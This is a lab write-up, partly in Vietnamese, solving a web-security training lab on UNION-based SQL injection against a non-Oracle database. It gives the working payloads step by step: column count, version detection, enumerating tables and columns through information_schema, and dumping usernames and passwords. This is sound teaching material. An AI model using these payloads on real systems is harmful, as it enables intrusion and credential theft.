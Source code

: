 # Lab: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

# Overview:

Lab này ta áp dụng những kiến thức nhỏ lẻ từ các lab trước để làm.Theo đề bài nói là `non-Oracle` vậy nghĩa là đã loại bớt 1 trường hợp, còn 2 trường hợp là `MySQL` và `Microsoft` 

Ta sử dụng payload thích hợp để lấy thông tin username và password của tất cả user.

Form của lab

![image](https://user-images.githubusercontent.com/115911041/232262144-8bd945d5-f136-4ac0-8746-7a46f69768c9.png)

# Solution:

Xác dịnh số column

`'+UNION+SELECT+'a','b'--`

![image](https://user-images.githubusercontent.com/115911041/232262208-1ae6a3a8-04e0-41d7-9041-c51432bdfa69.png)

Vậy có 2 columns. Kế đó ta cần xác định version của database, để tiết kiệm thời gian thì mình đã thử hết 3 version và đó là `PostgreSQL`

`'+UNION+SELECT+version(),NULL--`

![image](https://user-images.githubusercontent.com/115911041/232262499-933be91c-f711-46c4-9c3d-a9b2c542c135.png)

Bước tiếp theo output danh sách của table names trong database.

![image](https://user-images.githubusercontent.com/115911041/232262545-dbe2cd8d-38d0-4e69-939f-8adf6a5a41a8.png)

`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`

![image](https://user-images.githubusercontent.com/115911041/232262612-ffdcead1-b2c2-4f8a-993c-0ab717e21c5a.png)

Và ta đã có `users=zmmsrr`.Tiếp theo output column names của table.

`'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_zmmsrr'--`

![image](https://user-images.githubusercontent.com/115911041/232262948-1c7fc9cd-f3ff-4e5a-9251-4ff061600fb5.png)

`username_cggzdc
 password_tctxok`
 
 Cuối cùng ta chỉ cần output username và password của administrator theo yêu cầu của bài
 
 `'+UNION+SELECT+username_cggzdc,password_tctxok+FROM+users_zmmsrr--`
 
 ![image](https://user-images.githubusercontent.com/115911041/232263043-d023594f-1d49-42f2-981c-8df35cbeccc3.png)

